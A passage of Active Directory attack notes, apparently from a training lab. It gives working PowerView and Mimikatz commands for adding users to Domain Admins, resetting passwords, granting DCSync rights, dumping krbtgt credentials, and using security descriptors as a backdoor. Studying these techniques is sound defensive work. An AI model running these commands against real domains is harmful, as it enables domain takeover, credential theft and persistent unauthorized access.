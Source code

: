 Abusing FullControl using PowerView:

~~~
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
~~~

Abusing ResetPassword using PowerView:

~~~
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
~~~

#### ACLs - Rights Abuse

With DA privileges, the ACL for the domain root can be modified to provide useful rights like **FullControl** or the ability to **run DCSync** for any user

The permissions the user must have to execute DCSync:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set (in some cases)

**DCsync**:

~~~
C:\AD\Tools\SafetyKatz.exe “lsadump::dcsync /user:dcorp\krbtgt” “exit”
~~~

**Add FullControl rights**:

~~~
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
~~~

**Add rights for DCSync**:

~~~
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
~~~

**Execute DCSync**:

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
~~~

- It is possible to modify **Security Descriptors** (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
- Administrative privileges are required for this.
- It, of course, works as a very useful and impactful **backdoor mechanism**

Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:

~~~
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
~~~
